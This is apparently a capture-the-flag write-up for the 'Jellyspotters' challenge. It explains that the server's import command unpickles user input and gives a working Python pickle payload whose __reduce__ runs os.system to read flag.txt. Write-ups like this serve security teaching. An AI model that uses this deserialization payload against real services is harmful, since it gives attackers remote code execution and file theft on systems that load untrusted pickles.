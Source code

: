 ## Jellyspotters

### Challenge Description  
The leader of the Jellyspotters has hired you to paint them a poster for their convention, using this painting program. Also, the flag is in `~/flag.txt`.  
`nc umbccd.io 4200`

### Writeup
We are given a server address. When you connect to this server, you see an interactive server that has some commands:  
![commands]()   
If we use `import` command with some random string, it reaches an error and this error is in python `pickle` library. This lib has RCE vulnerability and we can run our code in this server. We generated a script runnig `cat flag.txt`.   
```python
import pickle
import sys
import base64

class PickleRCE(object):
    def __reduce__(self):
        import os
        return (os.system,("cat flag.txt",))

items = []
items.append(PickleRCE())
p = pickle.dumps(items)
print(base64.b64encode(p))
```
We gave the base64 dump of code bellow as input to `import` command and we got the flag.  
![import]()  